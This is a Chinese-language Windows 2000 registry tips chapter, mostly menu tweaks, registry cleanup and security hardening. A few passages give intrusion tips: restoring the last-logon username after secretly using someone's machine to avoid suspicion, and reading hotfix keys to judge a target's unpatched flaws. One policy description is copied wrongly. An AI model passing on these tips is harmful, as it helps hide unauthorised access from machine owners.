这个很简单，只要在 IE 的 Internet 选项里进行修改就可以了。当然，也可以到注册表中修改，位置为：

`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`

在右边找到 `Start Page` 这个值，修改为你想要的主页地址就可以了。

### 在 Windows 启动时显示一个窗口，点确定才能进去

这个设置其实与 IE 无关，而是 Windows 的登录提示窗口，不过最近有些网页对它动上了脑筋，在这个窗口里做广告。

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon`

在注册表中找到此主键，将其下的 `LegalNoticeCaption` 和 `LegalNoticeText` 主键删除即可。

### 在 IE 里点击鼠标右键，在弹出的菜单里显示网页广告

`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`

在 IE 中显示的附加右键菜单都在这里设置，常见的网络蚂蚁和网际快车“点击右键下载”的信息也存放在这里，只需找到显示广告的主键条目删除即可。

### 禁止或允许用户修改 IE 首页

这个位置：

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel`

其实一般此键是不存在的，所以后面一截要自己建立。主键建立完后，在 `Control Panel` 键下新建一个 DWORD 值数据，键名为 `HOMEPAGE`（不分大小写），键值为 1。此时你打开 IE 属性时可以发现改首页设置的部分已经不可用了。

当然，如果你想先指定主页的话，可以把 `HOMEPAGE` 的值改为 0 或删除它，然后修改主页设置，再把 `HOMEPAGE` 改回来即可。

### 去掉注册表编辑器被锁定问题

```reg
win2000 系统

Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

```reg
win98/me 系统

REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

将以上代码 copy 到记事本中，然后将这个文件的名字改为 `*.reg`，双击运行可以解除你的锁定状态。如果你对这个东西不是很了解，可以点击这里下载 reg 文件（2000 系统的、98/me 系统的）。

**注意：** 在以上的 `Windows Registry Editor Version 5.00` 和 `REGEDIT4` 下一定要空一行。另外，在脚本结束的时候，要键入至少一个回车才可以。

### Win2k 中如何去掉“文档”菜单？

注册表编辑器中，来到以下位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 分支，再选择“编辑”菜单下的“添加数值”命令，弹出添加数值窗口。在数值名称中输入 `NoRecentDocsMenu`，在数据类型下拉列表框中选择 `REG_DWORD`，单击“确定”按钮。再将 `NoRecentDocsMenu` 键值设为 `1`，最后单击“确定”按钮并重新启动系统即可。

### Win2k 中如何去掉“查找”菜单？

注册表编辑器中，找到如下位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建一个 DWORD 值，名为 `NoFind`，修改其数据为 `1`，完成后重新启动计算机。

### Win2k 中如何去掉“注销”菜单？

注册表如下位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建一个 DWORD 值，名为 `NoLogOff`，修改其数据为 `1`，完成后重新启动计算机。

### 如何去掉“关闭系统”菜单？

注册表中如下位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建一个 DWORD 值，名为 `NoClose`，数据为 `1`，完成后重新启动计算机。

### 如何去掉“设置”菜单？

注册表如下位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建 DWORD 值，名为 `NoSetFolders`，其数据为 `1`，完成后重新启动计算机。

### 如何自动清除“文档”菜单内容？

注册表如下位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，新建一个 DWORD 值 `ClearRecentDocsOnExit`，其数据为 `1`，完成后重新启动计算机。

### 如何删除桌面上的系统图标？

当你想删除桌面上的“回收站”、“Internet Explorer”等系统设定的图标时，……

## Win2k部分

会发现它们不能用一般的方法删除。这时你就要到注册表的如下位置：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Desktop\NameSpace
```

在该分支下面有多个子键，这些子键对应桌面上的“系统”图标，在右边窗口你可以看到，如“Internet Explorer”等。要删除不需要的图标，只须删除对应的键值，再重新启动系统即可。

### 如何去掉“网上邻居”图标？

注册表如下位置：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
```

新建一个 DWORD 值“NoNetHood”，其数据为 1，完成后重新启动计算机。

### 如何能禁止使用 Win2k 的任务管理器？

打开注册表，找到如下位置：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

如果 `System` 这一项不存在，就需要自己手动建立一个。右边窗口中新建一个字符串值，名为：`DisableTaskMgr`，设其值为 1。这时候，在任务栏上的右键菜单中，任务管理器将呈现灰色（图7-10）。


### 有没有办法给回收站增加一个重命名的功能？

注册表如下位置：

```
HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\ShellFolder
```

再到右边窗口中，找到“Attributes”，将原来的值“40 01 00 20”改为“50 10 00 20”。这时候，回到桌面上，右键“回收站”，会发现里面已经有了重命名功能（图7-11）。


### 有没有办法在右键菜单中增加“清空回收站”的选项？

可以的，修改注册表即可，位置如下：

```
HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers
```

在下面新建一个主键 `{645FF040-5081-101B-9F08-00AA002F954E}`，确定后退出注册表编辑器。然后来到桌面上，随便找到一个文件，右键点击该文件，在右键菜单里可以看到“清空回收站”这一项（图7-12）。


### 我的 WinRAR 已经删掉了，但是右键菜单中还是有 WinRAR 的选项，怎么删除？

修改注册表，位置如下：

`HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers` 下，查找右键出现残留的项，删除即可（图7-13）。


图7-13

另外，如果这些右键菜单项对文件夹也有效，还要到这里：
- `HKEY_CLASSES_ROOT\Directory\shellex`
- `HKEY_CLASSES_ROOT\Directory\ContextMenuHandlers`

有时在 `HKEY_CLASSES_ROOT\Folder\shellex\ContextMenuHandlers` 下也会出现，如果有的话，删掉。

> 问：在开始按钮上点右键出现的那个菜单，可以禁止掉么？

答：可以。来到注册表如下位置：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

在这下面新建二进制值“NoTrayContextMenu”，并将其数据改为 1 即可。再到开始按钮上点右键试试，就不能用了。

> 问：我能不能禁止在桌面上点鼠标右键？

答：可以。这个位置：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

这下面新建一个二进制值，名为“NoViewContextMenu”，数据为 1。

> 问：我能不能像在“开始→运行”中输入 cmd 那样来调用其他程序？

答：一般情况下不是所有程序都可以，但是修改注册表后可以。首先，我把 `cmd.exe` 从 `C:\WINNT\system32` 目录下 copy 到 F 盘并重命名为 `dos.exe`，这时候在运行中输入 `dos.exe` 将得到错误提示（图7-14）。


图7-14

然后修改注册表，位置：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\AppPaths`

下面建立一个“dos”主键，然后修改右边窗口的默认值为 `F:\dos.exe`，再在这里建立一个“Path”字符串，取值为 `F:\`（注意路径的盘符要大写）（图7-15）。


图7-15

这时候，再到“开始→运行”中输入 `dos`，回车，出来的就是 F 盘下的 `dos.exe`。

我们再来到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\AppPaths` 下，会发现下面主键的名字都是 `*.exe` 这种格式。随便点开一个看看右边窗口里的默认值数据内容，例如我这里点选的是 `CONF.EXE` 主键，右边窗口默认值的数据指明路径为 `D:\Program Files\NetMeeting\conf.exe`（图7-16）。


大家注意这些了么？在你的“开始→运行”菜单里键入 `conf.exe` 看看，出来了什么？到这里应该知道了吧：在 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\AppPaths` 下的这些主键名对应的程序，都是可以直接在运行对话框中运行的。

另外，还是这个位置：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`

右边窗口中有一个 `DefaultUserName`（图7-18），它的数据就是最近一次登录时的用户名，所以我们可以通过这个地方获得上次登录的用户名。


> 能不能隐藏我上次登录 Win2k 时使用的用户名呢？

可以。来到注册表如下位置：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon（图7-17）
```

右边窗口中找到 `Don't Display Last User Name`，改其值为 1 即可。

另外，如果我们偷偷以另外一个用户身份从本地进入主机，那么下次开机时用户名会显示我们登录时使用的用户名，必将引起机主怀疑。因此临走前把这里改为机主常用用户名，下次开机时就不会显示你使用的用户名了。

> Win2k 中有什么办法可以让 CD-ROM 不自动读盘吗？

注册表如下位置：

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Cdrom`

设置 `AutoRun` 的值为 0，就可以禁止自动装盘了（图7-19）。


图7-19

Win2k Server 登录时在按 `Ctrl+Alt+Del` 处的对话框能否修改？

这个改不了，但我们可以让你在按完组合键后、输入密码前跳出一个欢迎框。注册表位置：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`

将 `LegalNoticeText` 的值改为需要的内容，例如“欢迎”等等。如果还想改变对话框标题，可以将 `LegalNoticeCaption` 的值改为需要的内容。

### 我用的是 Win2k，能不能手动对我的注册表优化一下？

可以手动“减肥”，有以下几条可参考：

- 1. 精简键盘布局：一般我们都使用标准键盘，因此其他多余的键盘布局可以删除。  
  `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Keyboard Layouts`  
  保留 `00000409`、`00000809` 和 `00020409` 几个主键以及需要输入法的主键，其他删除即可。至于如何查看哪些应该保留，可以通过查看主键下的键值（右窗口中的内容）来判断这些主键都对应什么（图7-19）。

- 2. 精简区域设置：  
  `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Nls\Locale`  
  右边窗口中，只需要保留 `00000409`、`00000804` 和 `00000809`，其他删除即可。

- 3. 删除时区设置：  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\TimeZones`  
  通过查看内容可以判断地区（图7-20），找到“北京时间”，保留它，其他都删除即可（如果你非要留着菲律宾的时间不删也无所谓，我不反对）。


图7-20

- 4. 删除多余的鼠标外观方案：  
  `HKEY_CURRENT_USER\ControlPanel\Appearance\Schemes`  
  以及  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\ControlPanel\Cursors\Schemes`  
  右边窗口上显示的全部是 Win2k 的鼠标外观方案，选择性删除即可。

- 5. 清除无效的反安装信息：  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall`  
  这里存储着反安装信息，将那些已经卸载但仍在这里的软件信息删掉即可。

通过以上清除，注册表大小基本上能得到一定改善。

### 日志的存放位置可以修改吗？

可以。修改注册表可实现应用程序日志、安全日志、系统日志等日志位置调整，位置如下：

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Eventlog`

下面有三个键，分别为 `Application`、`Security`、`System`（如果是 Win2k Server 的话会更多）。点选其中一个，例如 `Application`，右边窗口中找到 `File` 值，它的数据便是应用程序日志存放位置（图7-21），默认值为 `%SystemRoot%\system32\config\AppEvent.Evt`。


图7-21

这里我修改它的值为 `%SystemRoot%\only_test\AppEvent.Evt`。然后到 控制面板 => 管理工具 => 事件查看器 中，右键应用程序日志，选择属性，可以看到记录位置变成了 `D:\WINNT\only_test\AppEvent.Evt`（图7-22），说明位置修改成功。其他日志位置也同样修改即可。


图7-22

`Schedule` 服务日志的修改：  
`HKEY_LOCAL_MACHINE\Software\Microsoft\SchedulingAgent`  
在右边窗口中有值 `LogPath`，修改其数据即可（图7-23）。


图7-23

### 如何修改 Win2k 的注册表使 Win2k 变得更安全？

默认安装的 Win2k 千疮百孔，实在该好好补一补了。

- 1. 只允许管理员安装打印机驱动：  
  `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Print\Providers\LanMan Print`  
  新建一个 DWORD 值，名为 `AddPrintDrivers`，修改其值为 1。

- 2. 清除关机后的页面文件（`pagefile.sys`，虚拟内存文件）：  
  `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\MemoryManagement`  
  下面新建一个 DWORD 值，名为 `ClearPageFileAtShutdown`，值为 1。由于页面文件中可能包含敏感信息，及时删除这些文件是必要的，防止被入侵者利用。

- 3. 禁止使用本地缓存登录：  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`  
  新建一个 DWORD 值，名为 `CacheLogonsCount`，值为 0。  
  本地缓存登录是这样的：在域中，主机登录到域时通常由域控制器在线验证；若短时间内域控制器离线，则可能使用本地缓存凭据直接登录到域，这会带来风险。

- 4. 禁止远程机访问软驱和光驱：  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`  
  新建两个 REG_SZ 类型的值，分别为 `AllocateFloppies` 和 `AllocateCDRoms`，值均为 1。

### 如何使用注册表删除 Win2k 的用户或组？

嘿嘿！如果想删除用户，到这个位置：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Users\Names`

在这里可以看到用户名。例如要删除名为 `test` 的用户，先查看 `test` 用户主键下默认键值的类型（如 `0x403`），然后即可定位并删除对应主键。


图7-24

这时候还没完成，再到：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Users`

这是删除 `test` 的上一层位置。找到以 `403` 结尾的主键（图7-25），删除该主键后，可用 `net user` 命令或在计算机管理中查看，用户 `test` 已不存在。


图7-25

如果是删除组，则到：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Builtin\Aliases\Names`

结构和方法与删除用户类似：先查看组名、记住类型，再定位到以该值结束的主键，删除即可（图7-26）。


图7-26

> 我记得 Win2k 下通过修改注册表就可以修改 MAC 地址，是吗？

是的，可以做到。来到注册表如下位置：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\`

在这下面手动查找主键，同时观察右边窗口中“默认”值的说明，找到说明为“网卡”的那一项（图7-27）。


图7-27

找到这个主键后展开它，在下面会出现 `000`、`001`、`002`……这些主键，再继续手动查找，同时注意右边窗口中的 `DriverDesc` 数据。当该值数据为你的网卡型号时（以我的 PC 为例：`Intel(R) PRO/100 VE Network Connection`），就停住，这就是我们要找的（图7-28）。


图7-28

就在该主键下的右边窗口中，新建一个字符串值，名为 `NetworkAddress`，然后给这个值赋值为你想要的 MAC 地址即可。最后记得重新启动计算机。

> 我的 IE 地址列表太多了，可以清除吗？

可以。进入注册表如下位置：

`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\TypedURLs`

右边窗口中的地址便是 IE 的网址列表，看哪个不爽就删哪个（图7-29）。


图7-29

> 怎么通过注册表查 Windows 打过的补丁？

注册表位置如下：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Hotfix`

这里在下面看到的并不是大家想象的 `SP1`、`SP2` 或 `SP3` 等，而是标明了 `HotFix`（图7-30）。


图7-30

从图中看出，我这里的 HotFix 为 `Q147222`。如果想知道是哪个补丁包，还需要到微软站点查询相关资料。当然，在微软一些漏洞公布资料中也会有，因为漏洞公布资料中都会有解决办法，而很多解决办法都会提供 HotFix 编号。

> 关于 Microsoft 的 HotFix：

`Service Pack`、`HotFix` 称为补丁修复包。而 Service Pack 就是大家常说的 `SP3` 中的 `SP`。微软发布漏洞时，通常先发布 HotFix 解决当前漏洞；当 HotFix 积累到一定数量后，微软会将其封装成包，这就成为了 Service Pack。

大家在入侵时，如果想知道对方打过哪些补丁，可以到上面的注册表位置查找，会看到名为 `Qxxxxxx` 的 HotFix。此时到微软站点，或者用搜索引擎（google 就是最好的了）搜索 `Qxxxxxx`，你会得到一堆结果。若 google 没坏掉，结果应该包括微软安全公告。

从公告中，你可以知道这个 HotFix 所修复的漏洞是什么。有的公告中还会写出该 HotFix 属于哪个 SP 补丁包。这样，根据漏洞或直接根据其给出的信息，就可以判断对方打过哪些补丁。

## 注册表附录部分

## 一、组策略安全选项对应注册表项汇总

组策略这个好东东大家都在用了吧？其实组策略中的一些策略和注册表中都有对应关系，在这里一一列出，希望对喜欢使用组策略的朋友有些用。

在组策略中的位置：

计算机设置 -> Windows 设置 -> 安全设置 -> 本地策略 -> 安全选项

以下是在注册表中的位置详细列表：

```
[MACHINE\System\CurrentControlSet\Control\Lsa]

值名: AuditBaseObjects
含义: 对全局系统对象的访问进行审计
类型: REG_DWORD
数据: 0=停用, 1=启用

值名: CrashOnAuditFail
含义: 如果无法记录安全审计，则立即关闭系统。
类型: REG_DWORD
数据: 0=停用, 1=启用

值名: FullPrivilegeAuditing
含义: 对备份和还原权限的使用进行审计。
类型: REG_BINARY
数据: 0=停用
```

## win2k 部分

### 1、启用

值名：LmCompatibilityLevel

含义：LAN Manager 身份验证级别。

类型：REG_DWORD

数据：  
0=发送 LM/NTLM 响应  
1=发送 LM & NTLM，若协商使用 NTLMv2 安全  
2=仅发送 NTLM 响应  
3=仅发送 NTLMv2 响应  
4=仅发送 NTLMv2 响应，拒绝 LM  
5=仅发送 NTLMv2 响应，拒绝 LM & NTLM

值名：RestrictAnonymous

含义：对匿名链接的额外限制（通常用于限制 IPC$ 空连接）。

类型：REG_DWORD

数据：  
0=无，依赖默认许可权限  
1=不允许枚举 SAM 账号和共享  
2=没有显式匿名权限就无法访问

值名：SubmitControl

含义：允许服务器操作员计划任务（仅用于域控制器）。

类型：REG_DWORD

数据：0=停用，1=启用

`[MACHINE\System\CurrentControlSet\Control\Print\Providers\LanManPrintServices\Servers]`

值名：AddPrinterDrivers

含义：防止用户安装打印机驱动程序

类型：REG_DWORD

数据：0=停用，1=启用

`[MACHINE\System\CurrentControlSet\Control\Session Manager\Memory Management]`

值名：ClearPageFileAtShutdown

含义：在关机时清理虚拟内存页面交换文件

类型：REG_DWORD

数据：0=停用，1=启用

`[MACHINE\System\CurrentControlSet\Control\Session Manager]`

值名：ProtectionMode

含义：增强全局系统对象的默认权限（例如 Symbolic Links）。

类型：REG_DWORD

数据：0=停用，1=启用

`[MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters]`

值名：EnableSecuritySignature

含义：对服务器通讯进行数字签名（如果可能）

类型：REG_DWORD

数据：0=停用，1=启用

值名：RequireSecuritySignature

含义：对服务器通讯进行数字签名（总是）

类型：REG_DWORD

数据：0=停用，1=启用

值名：EnableForcedLogOff

含义：当登录时间用完时，自动注销用户（本地）。

类型：REG_DWORD

数据：0=停用，1=启用

值名：AutoDisconnect

含义：在断开会话前需要的空闲时间。

类型：REG_DWORD

数据：分钟数

`[MACHINE\System\CurrentControlSet\Services\LanmanWorkstation\Parameters]`

值名：EnableSecuritySignature

含义：对客户端通讯进行数字签名（如果可能）

类型：REG_DWORD

数据：0=停用，1=启用

值名：RequireSecuritySignature

含义：对客户端通讯进行数字签名（总是）

类型：REG_DWORD

数据：0=停用，1=启用

值名：EnablePlainTextPassword

含义：发送未加密的密码以连接到第三方 SMB 服务器

类型：REG_DWORD

数据：0=停用，1=启用

`[MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters]`

值名：DisablePasswordChange

含义：防止计算机账户密码的系统维护

类型：REG_DWORD

数据：0=停用，1=启用

值名：SignSecureChannel

含义：安全通道：对安全通道数据进行数字加密（如果可能）

类型：REG_DWORD

数据：0=停用，1=启用

值名：RequireSignOrSeal

含义：安全通道：对安全通道数据进行数字加密或签名（总是）。

类型：REG_DWORD

数据：0=停用，1=启用

值名：RequireStrongKey

含义：安全通道：需要强（Windows 2000 或以上版本）会话密钥。

类型：REG_DWORD

数据：0=停用，1=启用

`[MACHINE\Software\Microsoft\Driver Signing]`

值名：Policy

含义：未签名驱动程序的安装操作

类型：REG_BINARY

数据：0=默认安装，1=允许安装但发出警告，2=禁止安装

`[MACHINE\Software\Microsoft\Non-Driver Signing]`

值名：Policy

含义：未签名非驱动程序的安装操作。

类型：REG_BINARY

数据：  
0=默认安装  
1=允许安装但发出警告  
2=禁止安装

`[MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System]`

值名：DisableCAD

含义：禁用按 CTRL+ALT+DEL 进行登录的设置。

类型：REG_DWORD

数据：  
0=停用  
1=启用

值名：DontDisplayLastUserName

含义：登录屏幕上不要显示上次登录的用户名。

类型：REG_DWORD

数据：  
0=停用  
1=启用

值名：LegalNoticeCaption

含义：用户试图登录时消息标题。

类型：REG_SZ

数据：标题文本

值名：LegalNoticeText

含义：用户试图登录时消息文字。

类型：REG_SZ

数据：消息文字

值名：ShutdownWithoutLogon

含义：登录屏幕上不要显示上次登录的用户名。

类型：REG_DWORD

数据：  
0=停用  
1=启用

`[MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Setup\RecoveryConsole]`

值名：SecurityLevel

含义：故障恢复控制台，允许自动系统管理员登录。

类型：REG_DWORD

数据：  
0=停用  
1=启用

值名：SetCommand

含义：故障恢复控制台：允许对所有驱动器和文件夹进行软盘复制和访问。

类型：REG_DWORD

数据：  
0=停用  
1=启用

`[MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon]`

值名：AllocateCDRoms

含义：只有本地登录的用户才能访问 CD-ROM。

类型：REG_SZ

数据：  
0=停用  
1=启用

值名：AllocateDASD

含义：允许弹出可移动 NTFS 媒体。

类型：REG_SZ

数据：  
0=Administrators  
1=Administrators 和 Power Users  
2=Administrators 和 Interactive Users

值名：AllocateFloppies

含义：只有本地登录的用户才能访问软盘。

类型：REG_SZ

数据：  
0=停用  
1=启用

值名：CachedLogonsCount

含义：可被缓冲保存的前次登录个数（在域控制器不可用的情况下）。

类型：REG_SZ

数据：次数，如 10 次

值名：PasswordExpiryWarning

含义：在密码到期前提示用户更改密码。

类型：REG_DWORD

数据：天数，缺省是 14 天

值名：ScRemoveOption

含义：智能卡移除操作。

类型：REG_SZ

数据：0=无操作，1=锁定工作站，2=强制注销

## 二、修改注册表来加强 win2k 的安全性

### 1、开机出现屏保

首先给计算机设置一个屏幕保护动画，而且加上一个密码，然后来到这个位置：

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

在下面建立一个字符串值，其数据则为你所设置的屏幕保护的路径，这样一开机便进入屏幕保护状态，而且是加密的。

### 2、防止 ICMP 重定向报文的攻击

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`  
EnableICMPRedirects（类型为 DWORD）：设置值为 0。

这样一来，win2k 不会响应任何 ICMP 重定向报文。

### 3、禁止响应 ICMP 路由通告报文

“ICMP 路由公告”功能可造成他人计算机的网络连接异常、数据被窃听、计算机被用于流量攻击等严重后果，通过以下方法来禁止掉它。

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\interface`  
DWORD 值，键值为 PerformRouterDiscovery，设置其值为 0。

### 4、防止 SYN 洪水攻击

大家都很熟悉的一种 DoS 攻击，一定要防御啊！

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`  
DWORD 值，键值为 SynAttackProtect，设置其值为 2。

### 5、不支持 IGMP 协议

IGMP 是一个新发展起来的协议，现在很多厂商都在大力发展 IGMP，但是由于它的不完善，所以也会带来一些安全问题，如果没有特殊情况的话，不支持它就是最安全的了，方法如下：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`  
DWORD 值，键值为 IGMPLevel，设置其值为 0。

### 6、关闭网关监测技术

如果你设置了多个网关，那么你的机器在处理多个连接有困难时，就会自动改用备份网关。有些情况下，可能会带来负面的影响，建议去掉。

### 7、不支持路由功能

win2k svr 以上版本有路由功能，开着它干什么？这不是更方便给人家做跳板了么，关掉：

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters

DWORD 值，键值为 `IPEnableRouter`，设置其值为 `0`。

### 8、修改注册表来过滤 IP

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters

右边窗口中，修改双字节值 `EnableSecurityFilters`。

### 9、禁用 IE 的“Internet 选项”中的高级项

HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel

下面新建一个 DWORD `AdvancedTab`，并设置为 `1`。

### 10、禁止更改 IE 默认的检查

HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel

新建一个 DWORD 值 `ProgramsTab`，设置其值为 `1`。

### 11、局域网中自动断开时间

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters

新建一个 DWORD 值，名为 `Autodisconnect`，设其值为分钟数即可。

### 12、禁用 reg 文件

HKEY_LOCAL_MACHINE\software\CLASSES\.reg

修改右边的默认值为 `txtfile`。

### 13、win2k 死机后自动重启

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\CrashControl

修改右边的 `AutoReboot` 的值为 `1`。

### 14、减少 TIME_WAIT 状态的等待时间

TIME_WAIT 表示曾经有一个主机与你的主机建立连接，但中途意外中断；被访问主机会将该连接标为 TIME_WAIT 状态位，并在一段时间后等待再次连接。若被反复攻击，可能积累大量 TIME_WAIT 连接导致网络不可用。

可在注册表中修改等待时间：

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters

修改 DWORD 值 `TcpTimedWaitDelay`（没有则新建），按十进制设置为 `30`（文中说明最低值，示例提到最高值为 300）。

### 15、启用网卡上的安全过滤

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`  
DWORD 值：EnableSecurityFilters

设置其值为 1。

### 16、最大的 TCP 连接数

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`  
DWORD 值：TcpNumConnections

至于设置为多少，就看自己的需要了。

## 第8章 win2k 的服务

### 什么是服务默认端口？

所谓的默认端口的意思是系统自动向导安装之后，未经对端口任何设置而自动开放的端口，就是所谓的默认服务端口。

### 137 netbios-ns，138 netbios-dgm，139 netbios-ssn 这些都是什么东西啊？

我想 NETBIOS 这个概念大家都应该很熟悉吧，在打开了 NETBIOS 端口后，这几个端口就会开放了：

- 1. 137 = NETBIOS Name Service PORT
- 2. 138 = NETBIOS Datagram Service PORT
- 3. 139 = NETBIOS Session Service PORT

应该注意的是，其中 137 和 138 号端口是 UDP 端口，而 139 才是 TCP 端口。

### 请问怎么在 xp home 版中用类似 pws 之类的 web 服务器工具？

很多人都说在 xp 的 home edition 版下可以安装 pws（personal web server，在 98 下的一个 web 发布工具），但是我试过，pws 只能在 98 和 2k 下安装，在我的 XP 的 home edition 版下并无法安装（我的 XP 可是正版哦），所以，这里建议使用 apache 来做 web 发布的服务器。apache 是在 LINUX 下最常用的一个 web 服务器，最大的特点就是稳定和安全了。另外，除了安装 apache 以外，还可以在 home edition 上安装 IIS，这个有点麻烦，不过还是可以解决的，介绍一下在 XP home edition 上安装 IIS：

- 1. Windows XP HomeEdit 中文版 CD（拷在硬盘也可以）
- 2. Windows 2000 Advanced Server CD（最好也是中文版）
- 3. 默认你的 XP 是安装在 C:\WINDOWS 下，开始动手（如果你怕改错，先把 C:\WINDOWS\INF\SYSOC.INF 做一份备份）用记事本打开 C:\WINDOWS\INF\SYSOC.INF，在 [COMPONENTS] 下找到一行：`iis=iis.dll,OcEntry,iis.inf,hide,7` 然后把它改成 `iis=iis2.dll,OcEntry,iis2.inf,,7`，再保存。

然后把 Windows 2000 Advanced Server CD 里的两个文件 IIS.DL_ 和 IIS.IN_ 拷贝到一个临时的目录（例如 C:\AAA），然后在命令提示符状态下将当前目录转到 C:\AAA，执行 `EXPAND IIS.DL_ IIS2.DLL`；`EXPAND IIS.IN_ IIS2.INF`，解出 IIS2.DLL 及 IIS2.INF 两个文件，将 IIS2.INF 复制到 C:\WINDOWS\INF 目录下，将 IIS2.DLL 复制到 C:\WINDOWS\SYSTEM32\SETUP 目录下。现在按“开始->设置->控制面板->添加或删除程序->添加/删除 Windows 组件”，这时你就会发现 IIS 出现了！此后的过程就和 PRO 版的 XP 安装 IIS 差不多了，过程中会要求你选择 Windows 2000 Advanced Server 光盘和 Windows XP HomeEdit 光盘的位置，输入指定的目录即可正常安装。

安装完毕以后还不能直接用的，需要对 IIS 进行一些设置。

点击“控制面板”->“管理工具”->“Internet 服务管理器”；然后点默认“WEB 站点”的右键，转到“目录安全性”选项卡，点“匿名访问和验证控制”的“编辑”按钮，会弹出匿名方法新窗口，再点击其中“匿名访问”中的“编辑”按钮，将“允许 IIS 控制密码”前面的勾去掉，然后一路确定返回即可。

### 445 Microsoft-DS 和 1025 network blackjack 在 win2k 是用来提供什么服务的？

关于 139 端口大家都应该熟悉了吧，共享数据的时候用到的一个端口。如果当 139 端口关闭之后，如果想进行数据共享的时候，就会使用 445 端口了。共享连接会先检测 139 端口，如果这个端口没有开放的话，就会对 445 端口进行尝试了。

1025 端口则是 IE 所用到的一个用来传输数据的临时端口，是 IE 进行数据传输时候用到的。

### 我使用的是 win2k 的系统，经常会收到系统的报错信息，还写着具体信息请查看日志什么的，那个日志该怎么看啊？

依次打开：控制面板→管理工具→事件查看器（图 8-1），这里就可以查看日志了；日志被分为三类，分别是应用程序日志、安全日志、系统日志，可以根据不同情况有针对性地查看分析日志。


图 8-1

### 如何让 guest 级的用户不能访问日志？

默认情况下，guest 帐号和所有匿名登录者都是有权限访问并查看日志的，这意味着什么？如果你的日志里满满地记录着系统信息的话，那么会怎么样？匿名登录者会很容易地搜集到他想要的信息，因此，确实有必要禁止这些用户对日志的访问权限。针对不同类的日志：

